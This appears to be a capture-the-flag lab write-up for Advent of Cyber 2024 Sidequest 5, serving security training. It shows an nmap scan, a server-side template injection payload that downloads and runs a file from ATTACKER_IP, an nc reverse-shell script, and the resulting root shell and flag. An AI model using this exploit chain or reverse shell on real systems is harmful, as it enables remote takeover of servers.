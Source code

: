 # T5: An Avalanche of Web Apps

This is a writeup for Advent of Cyber 2024 Sidequest 5.



Once you have the keycard, booted the machine and unlocked the firewall on port 21337 using the provided password, nmap to discover services on the machine.

```sh
─$ nmap -sV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 20:17 EST
Nmap scan report for npm-registry.bestfestivalcompany.thm (10.10.185.28)
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain  dnsmasq 2.90
80/tcp   open  http    Apache httpd 2.4.58
3000/tcp open  http    Node.js Express framework
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.09 seconds
```

```
└─$ cat script.js        
const formData = new URLSearchParams({
  title: "My New Wiki",
  markdownContent: `{{ ''.constructor.constructor('require("child_process").exec("wget ATTACKER_IP$/c -O /tmp/c && chmod 777 /tmp/c && /tmp/c")')() }}`
});

fetch('/wiki', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: formData.toString(),
})
```

```
└─$ cat c   
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP$ 4444 >/tmp/f
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
└─$ nc -nlvp 4444                                                                                                       
listening on [any] 4444 ...
connect to [10.6.27.203] from (UNKNOWN) [10.10.185.28] 44757
/bin/sh: can't access tty; job control turned off
/app/bfc_thehubint # 
```

```
/ # whoami
root
/ # cd /
/ # ls
app
bin
data
dev
etc
flag-a3877c28657833933e47fcdd9d14903f.txt
home
...
/ # cat flag-a3877c28657833933e47fcdd9d14903f.txt
THM{REDACTED}

```

